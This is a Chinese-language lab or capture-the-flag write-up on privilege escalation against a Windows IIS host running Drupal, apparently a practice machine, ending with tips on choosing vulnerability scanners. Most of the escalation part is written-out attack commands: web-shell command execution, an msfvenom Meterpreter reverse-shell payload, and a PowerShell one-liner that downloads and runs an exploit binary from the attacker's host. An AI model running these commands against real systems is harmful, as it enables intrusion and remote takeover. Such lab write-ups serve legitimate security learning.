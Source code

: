 #### 提权尝试二:
当payload是`php/meterpreter_reverse_tcp`时，后续渗透无法使用suggester模块。

而且该模块不知道为什么，一旦执行命令，就被断开连接。

#### 提权尝试三:
```
wget http://10.10.10.9/whale.php?cmd=systeminfo -o sys.txt
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --database 2019-03-06-mssb.xls --systeminfo sys.txt
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-05/5.PNG)

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-05/7.PNG)
```
msfvenom --platform Windows -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=9009 -f exe -o p.exe

handler -H 10.10.14.7 -P 9009 -p windows/meterpreter/reverse_tcp

python -m SimpleHTTPServer 80 用nc反弹的cmd，把p.exe用powershell传到目标机

powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.7/MS10-059.exe','C:\inetpub\drupal-7.54\15.exe')

15.exe 10.10.14.7 5555
```
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-05/8.PNG)




## 总结
google "IIS vesions"，进行windows操作系统的识别

github下载droopescan，对drupal进行扫描。

? 如何识别cms的漏洞。
当遇到一个陌生的cms时，可以先在github上搜索cms对应的扫描器，而不是自己手动通过服务版本识别，再找exp，逐个确认是否有已知漏洞。这样效率会很低。

？为什么要使用droopescan
扫描器都是基于插件或者是特征库的，你不能用nessus扫描web漏洞，appscan扫描系统漏洞。选择合适的扫描器。

？如何自动下载python程序所需的依赖
`pip install -r requirements.txt`

